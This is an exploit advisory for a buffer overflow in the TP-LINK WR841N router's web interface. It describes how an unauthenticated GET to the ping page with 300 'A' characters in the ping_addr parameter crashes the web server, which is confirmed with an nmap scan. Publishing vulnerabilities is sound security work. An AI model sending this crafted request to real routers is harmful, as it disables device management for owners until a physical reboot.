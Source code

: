 ## Exploit Title: TP-LINK WR841N - Buffer Overflow DOS (Denial of Service)

- Date: 04/28/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Tp-Link](http://www.tp-link.com)

- Version: TP-LINK WR841N 3.16.9 Build 160721 Rel.51793n

- Hardware Version: WR841N v11 00000000

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in TP-LINK WR841N router that can allow an attacker to crash the web server running on the router by sending a crafted request
  To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Using Burp Suite)

- GET request to ping service, made an unauthorized request to /userRpm/PingIframeRpm.htm?ping_addr= , Sending 300 bytes of A’s to limited stack

- nmap 192.168.35.1 -p 80 80/tcp closed http

![](https://www3.0zz0.com/2024/08/10/19/692309672.jpg)
![](blob:https://www.facebook.com/9f8ba9cb-356e-4d25-83ac-91c758f593fb)
